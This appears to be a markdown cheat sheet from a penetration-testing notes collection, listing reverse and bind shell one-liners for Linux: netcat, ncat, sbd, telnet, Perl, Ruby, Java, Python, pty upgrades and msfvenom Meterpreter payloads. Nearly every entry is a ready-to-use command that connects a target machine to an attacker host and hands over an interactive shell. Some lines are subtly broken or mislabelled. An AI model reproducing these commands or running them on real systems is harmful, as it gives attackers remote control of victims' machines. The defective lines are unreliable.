 # Linux Shells
___
## nc
##### Listener
```bash
nc -nvlp [PORT] -e /bin/bash
```
##### Shell
```bash
nc [IP] [PORT] -e /bin/bash
```
```bash
rm -f /tmp/p; mknod /tmp/p p && nc [IP] [PORT] 0/tmp/p
```

## ncat
##### Listener
```bash
ncat --exec cmd.exe --allow [IP] -vnl [PORT] --ssl
```
##### Shell
```bash
ncat -nv [IP] [PORT]
```

## sdb
##### Listener
```bash
sbd -lp [PORT] -k secret -e /bin/bash
```
##### Shell
```bash
sbd -k secret [IP] [PORT]
```

## telnet
##### Shell
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet [IP] [PORT] 0/tmp/p
```
```bash
telnet [IP] [PORT] | /bin/bash | telnet [IP] [PIPED-PORT]
```

## perl
```perl
perl -e 'use Socket;$i=[RT-IP];$p=[PORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open([IP],[PORT]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/[PORT];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(([IP],[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

##### Spawn Shell
```python
python -c 'import os; os.system("/bin/sh")'
```
```python
python -c "import pty;pty.spawn('/bin/bash')"
```


## Metasploit
##### Staged reverse TCP
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf -o [NAME].elf
```
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf > [NAME].elf
```

##### Stageless reverse TCP
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf -o [NAME].elf
```

